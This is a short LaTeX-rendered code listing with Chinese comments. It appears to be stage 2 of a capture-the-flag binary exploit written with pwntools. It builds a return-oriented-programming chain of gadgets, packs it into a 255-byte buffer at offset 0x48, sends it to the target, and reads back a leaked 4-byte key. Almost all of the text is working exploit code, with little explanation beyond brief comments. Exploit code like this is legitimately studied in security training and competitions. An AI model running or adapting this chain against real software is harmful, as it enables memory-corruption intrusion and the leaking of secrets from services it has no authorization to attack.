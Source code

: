 \documentclass[10pt,a4paper]{article}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\BaseNTok}[1]{\textcolor[rgb]{0.00,0.00,0.81}{#1}}
\newcommand{\BuiltInTok}[1]{#1}
\newcommand{\CharTok}[1]{\textcolor[rgb]{0.31,0.60,0.02}{#1}}
\newcommand{\CommentTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{\textit{#1}}}
\newcommand{\ControlFlowTok}[1]{\textcolor[rgb]{0.13,0.29,0.53}{\textbf{#1}}}
\newcommand{\DecValTok}[1]{\textcolor[rgb]{0.00,0.00,0.81}{#1}}
\newcommand{\KeywordTok}[1]{\textcolor[rgb]{0.13,0.29,0.53}{\textbf{#1}}}
\newcommand{\NormalTok}[1]{#1}
\newcommand{\OperatorTok}[1]{\textcolor[rgb]{0.81,0.36,0.00}{\textbf{#1}}}
\newcommand{\StringTok}[1]{\textcolor[rgb]{0.31,0.60,0.02}{#1}}
\renewenvironment{Shaded}{%
  \def\FrameCommand{\fboxsep=3.2pt\colorbox{shadecolor}}%
  \MakeFramed{\advance\hsize-\width\FrameRestore\small}%
}{%
  \endMakeFramed
}
\begin{document}
\begin{Shaded}
\begin{Highlighting}[]
\CommentTok{\# {-}{-}{-}{-} 階段 2：把鏈放進 255 bytes 的緩衝區 {-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}{-}}
\NormalTok{d1 }\OperatorTok{=} \BuiltInTok{bytearray}\NormalTok{(}\StringTok{b\textquotesingle{}}\CharTok{\textbackslash{}0}\StringTok{\textquotesingle{}} \OperatorTok{*} \DecValTok{255}\NormalTok{)        }\CommentTok{\# 長度 = 0x401f07 的 bl（由 stage 的 p64(0xff) 決定）}
\NormalTok{d1[}\BaseNTok{0x40}\NormalTok{] }\OperatorTok{=} \BaseNTok{0xff}                    \CommentTok{\# → 下一次 read 的長度}
\NormalTok{chain  }\OperatorTok{=}\NormalTok{ [POP\_RDI, }\DecValTok{1}\NormalTok{, POP\_RSI, KEY, WRITE\_RDX\_RAX,}
\NormalTok{          POP\_RSI, KEY }\OperatorTok{+} \DecValTok{3}\NormalTok{, WRITE\_RDX\_RAX,}
\NormalTok{          POP\_RBX, }\BaseNTok{0xff}\NormalTok{, SUBMIT\_READ]}
\NormalTok{A2 }\OperatorTok{=}\NormalTok{ A1 }\OperatorTok{+} \BaseNTok{0x48} \OperatorTok{+} \DecValTok{8} \OperatorTok{*} \BuiltInTok{len}\NormalTok{(chain)    }\CommentTok{\# 下一段的 read 位址}
\NormalTok{d1[}\BaseNTok{0x48}\NormalTok{:}\BaseNTok{0x48} \OperatorTok{+} \DecValTok{8} \OperatorTok{*} \BuiltInTok{len}\NormalTok{(chain)] }\OperatorTok{=} \StringTok{b\textquotesingle{}\textquotesingle{}}\NormalTok{.join(p64(x) }\ControlFlowTok{for}\NormalTok{ x }\KeywordTok{in}\NormalTok{ chain)   }\CommentTok{\# 鏈從 A1+0x48 開始}
\NormalTok{io.send(}\BuiltInTok{bytes}\NormalTok{(d1))}
\NormalTok{io.recvuntil(}\StringTok{b\textquotesingle{}OK}\CharTok{\textbackslash{}n}\StringTok{\textquotesingle{}}\NormalTok{, timeout}\OperatorTok{=}\DecValTok{3}\NormalTok{)   }\CommentTok{\# (4) 這次 read 印的 OK\textbackslash{}n}
\NormalTok{leak }\OperatorTok{=}\NormalTok{ io.recvn(}\DecValTok{6}\NormalTok{, timeout}\OperatorTok{=}\DecValTok{3}\NormalTok{)      }\CommentTok{\# (5) 6 bytes 才是 key（前 4 bytes）}
\NormalTok{key }\OperatorTok{=}\NormalTok{ leak[:}\DecValTok{4}\NormalTok{]}


\end{Highlighting}
\end{Shaded}
\end{document}
